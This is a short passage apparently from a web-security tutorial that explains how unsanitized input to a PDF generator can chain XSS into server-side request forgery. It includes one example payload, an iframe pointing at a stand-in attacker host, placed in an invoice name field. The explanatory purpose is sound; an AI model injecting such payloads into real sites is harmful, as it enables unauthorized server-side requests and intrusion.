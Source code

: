 <!-- @TODO: Link XSS from Client-side Vulnerabilities -->
Some websites, allows their users to generate a PDF based on the input they have provided. If these inputs are non-sanitized, this can lead to a SSRF by chaining it with a Cross Site Scripting (XSS) attack.

Usual pre-requisite for an attack like this is for the website to be vulnerable from Cross Site Scripting (XSS). For example, a target website generates an invoice that includes your full name in it. You can use the following payload as your full name: `<iframe src="http://attacker-website.com" width="400" height="400">` which then a PDF generator library would take and generate a PDF and executing the `iframe` code an attacker has provided.